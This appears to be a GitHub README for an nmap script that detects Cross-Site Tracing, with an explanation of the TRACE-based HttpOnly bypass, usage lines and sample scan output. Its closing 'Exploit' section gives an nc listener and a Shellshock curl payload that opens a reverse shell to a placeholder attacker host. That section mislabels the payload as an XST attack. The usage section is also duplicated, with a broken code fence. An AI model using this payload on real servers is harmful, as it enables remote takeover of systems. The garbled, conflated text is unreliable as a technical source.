 # XST-Script
Cross Site Tracking
<br>
A Cross-Site Tracing (XST) attack involves the use of Cross-site Scripting (XSS) and the TRACE or TRACK HTTP methods. According to RFC 2616, “TRACE allows the client to see what is being received at the other end of the request chain and use that data for testing or diagnostic information.”, the TRACK method works in the same way but is specific to Microsoft’s IIS web server. XST could be used as a method to steal user’s cookies via Cross-site Scripting (XSS) even if the cookie has the “HttpOnly” flag set or exposes the user’s Authorization header.
<br>
The TRACE method, while apparently harmless, can be successfully leveraged in some scenarios to steal legitimate users’ credentials. This attack technique was discovered by Jeremiah Grossman in 2003, in an attempt to bypass the HttpOnly tag that Microsoft introduced in Internet Explorer 6 sp1 to protect cookies from being accessed by JavaScript. As a matter of fact, one of the most recurring attack patterns in Cross Site Scripting is to access the document.cookie object and send it to a web server controlled by the attacker so that they can hijack the victim’s session. Tagging a cookie as HttpOnly forbids JavaScript to access it, protecting it from being sent to a third party. However, the TRACE method can be used to bypass this protection and access the cookie even in this scenario.
<br>
Modern browsers now prevent TRACE requests being made via JavaScript, however, other ways of sending TRACE requests with browsers have been discovered, such as using Java.

### Usage 
```bash
nmap --script /usr/share/nmap/script/XST.nse -p 80,443 -d (target)

# XST-Script
Cross Site Tracking

### Usage 
```bash
nmap --script /usr/share/nmap/scripts/XST.nse -p 80,443 -d (target)
```
<br>
```bash
PORT    STATE  SERVICE REASON
80/tcp  open   http    syn-ack
| XST: Celah XST [Cross Site Tracing] ditemukan
| Headers:
| Date: Wed, 07 Sep 2022 06:27:39 GMT
| Server: Apache/2.2.8 (Ubuntu) DAV/2
| Connection: close
| Transfer-Encoding: chunked
|_Content-Type: message/http
443/tcp closed https   conn-refused

Final times for host: srtt: 481 rttvar: 2879  to: 100000
```

### *Exploit
```bash
sudo apt-get install curl nc
nc -nvlp [hacker-port -> default: 4444 TCP]

# script formula [ { :;} ]
curl -k -H 'User-Agent: () { :;}; /bin/bash -c "nc [hacker-ip] [hacker-port] -e [shell -> default: /bin/bash]"' http://[victim-ip]/[cgi-bin-file -> default: cgi-bin/sh_index.cgi]

# serangan code injection melalui kelemahan header http [XST VULN] dan cgi-file yang tersedia atau misconfiguration!
```
